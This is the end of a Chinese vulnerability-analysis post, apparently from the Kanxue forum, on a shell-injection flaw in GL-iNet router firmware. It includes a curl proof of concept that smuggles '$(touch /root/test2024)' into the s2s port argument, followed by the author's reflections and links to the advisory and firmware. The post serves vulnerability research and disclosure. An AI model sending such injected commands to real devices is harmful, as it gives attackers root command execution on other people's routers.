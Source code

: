 ```
curl http://192.168.100.2/cgi-bin/glc -d '{"object":"s2s","method":"enable_echo_server","args":{"port":"7 $(touch /root/test2024)"}}'
```

![](https://bbs.kanxue.com/upload/attach/202409/1007967_6Q7CGQKAEYTMC48.webp)  
![](https://bbs.kanxue.com/upload/attach/202409/1007967_33FXFXMZ75JAWKX.webp)

总结
--

漏洞应急最烦环境弄不好，这次就因为一开始不了解 `GL-iNet` 路由器导致纯在瞎折腾浪费时间，最后在大佬的指点下搭建好环境。记录过程中尽量复刻了当时工作的操作顺序，逻辑上有很多地方其实有更简单的解决方法不用绕这么多弯，诸君见笑。

相关链接
----

[1] 漏洞详情

[https://github.com/gl-inet/CVE-issues/blob/main/4.0.0/s2s%20interface%20shell%20injection.md](https://github.com/gl-inet/CVE-issues/blob/main/4.0.0/s2s%20interface%20shell%20injection.md)

[2] 固件下载

[https://dl.gl-inet.cn/](https://dl.gl-inet.cn/)

[3] 内核镜像和文件系统下载

[https://people.debian.org/~aurel32/qemu/](https://people.debian.org/~aurel32/qemu/)

[[课程]Android-CTF 解题方法汇总！](https://www.kanxue.com/book-section_list-181.htm)

[#安全研究](forum-128-1-167.htm) [#漏洞分析](forum-128-1-171.htm) [#家用设备](forum-128-1-173.htm)